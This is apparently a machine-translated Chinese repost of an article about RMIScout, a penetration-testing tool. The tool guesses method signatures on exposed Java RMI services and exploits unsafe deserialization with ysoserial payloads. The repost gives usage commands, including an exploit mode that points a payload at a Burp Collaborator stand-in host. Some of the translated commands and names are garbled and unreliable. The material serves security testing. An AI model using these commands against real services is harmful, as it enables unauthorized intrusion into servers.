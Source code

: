 # RMIScout:针对暴露的 Java RMI 接口的暴力攻击

> 原文：<https://kalilinuxtutorials.com/rmiscout/>

[![RMIScout : Bruteforce Attacks Against Exposed Java RMI Interfaces](img//b0e64841a2973653f5072d9d063e7636.png "RMIScout : Bruteforce Attacks Against Exposed Java RMI Interfaces")](https://1.bp.blogspot.com/-AiuDSPkEFTw/XvOrE839z1I/AAAAAAAAGtI/gUVrQ8xjr5Y1s4Yah_98tTp4BXToJNpvQCLcBGAsYHQ/s1600/RMIScout%25281%2529.png)

RMIScout 对暴露的 Java RMI 接口执行单词列表和暴力攻击，以在不调用的情况下安全地猜测方法签名。

在错误配置的服务器上，任何已知的使用非原始类型的 RMI 签名(例如，`**java.lang.String**`)都可以通过用序列化的有效负载替换对象来利用。

这是一种相当常见的错误配置(例如，VMWare VSP here Data Protection+v realize Operations Manager、Pivotal tc Server 和 Gemfire、Apache Karaf + Cassandra)，正如在 [An Trinh 的 2019 Blackhat EU talk](https://i.blackhat.com/eu-19/Wednesday/eu-19-An-Far-Sides-Of-Java-Remote-Protocols.pdf) 中所强调的。

RMIScout 与 [ysoserial](https://github.com/frohoff/ysoserial/) 和 [GadgetProbe](https://github.com/bishopfox/gadgetprobe) 集成，对错误配置进程级序列化过滤器的服务进行反序列化攻击( [JEP 290](https://openjdk.java.net/jeps/290) )。

![](img//45d383e000b1174e1395b23e878251ea.png)

**动机**

我需要一个工具来完成以下任务:

1.  提供单词列表和基于文本的强制策略，而不是强制 64 位方法哈希。
2.  识别 RMI 方法而不调用它们。
3.  提供一种简单的方法来利用已知的不安全 RMI 参数解组问题，并与 ysoserial 或实现 **`ysoserial.payloads.ObjectPayload`的有效负载集成。**
4.  集成 GadgetProbe 来识别远程类，以帮助识别相关软件和构造小工具链。

为了开始你的搜索，包含的`**lists/prototypes.txt**`单词表是从 GitHub 的 OSS 项目中发现的 15，000 个 RMI 原型中删除重复的单词表。随时提交一份公关，包括更多🙂

它是如何工作的？

为了识别但不执行 RMI 函数，RMIScout 使用低级 RMI 网络函数和动态类生成来发送故意不匹配类型的 RMI 调用，以触发远程异常。所有参数都替换为动态生成的可序列化类，该类具有 255 个字符的名称，假定在远程类路径中不存在。例如:

远程接口:

**作废登录(字符串用户，字符串密码)**

RMIScout 将调用:

**登录((字符串)新 QQkzkn3)..255 个字符..()，(String)新 Qkzkn3..255 个字符..())**

如果该类存在，这将导致由`ClassNotFoundException`或参数解组错误引起的远程`java.rmi.UnmarshalException`，而不会调用底层方法。

点击阅读[完整的技术文章。](https://know.bishopfox.com/research/rmiscout)

**用途**

```
# Perform wordlist-attack against remote RMI service using wordlist of function prototypes
./rmiscout.sh wordlist -i lists/prototypes.txt <host> <port>

# Bruteforce using method wordlist and other options
./rmiscout.sh bruteforce -i lists/methods.txt -r void,boolean,long -p String,int -l 1,4 <host> <port>

# Swap object-derived types with the specified ysoserial payload and payload parameter
./rmiscout.sh exploit -s 'void vulnSignature(java.lang.String a, int b)' -p ysoserial.payloads.URLDNS -c "http://examplesubdomain.burpcollaborator.net" -n registryName <host> <port>

# Use GadgetProbe and a known signature to bruteforce classes on the remote classpath
./rmiscout.sh probe -s 'void vulnSignature(java.lang.String a, int b)' -i ../GadgetProbe/wordlists/maven_popular.list -d "examplesubdomain.burpcollaborator.net" -n registryName <host> <port> 
```

**建筑&运行**

使用附带的`**rmiscout.sh**`脚本自动构建项目，并作为`**java -jar**`语法的方便包装:

**。/RMI scout . sh word list-I lists/prototypes . txt<主机> <端口>**

或者，手动构建项目并使用传统的`java -jar`语法:

**#手动建立罐子**
。/grad Lew shadow jar

Java-jar build/libs/RMI scout-1.01-SNAPSHOT-all . jar wordlist-I lists/prototypes . txt<host><port>

**尝试一下**

运行演示 RMI 服务器。试用收录的 **`demo/wordlist.txt`。**

**cd 演示
。/start.sh**

[**Download**](https://github.com/BishopFox/rmiscout)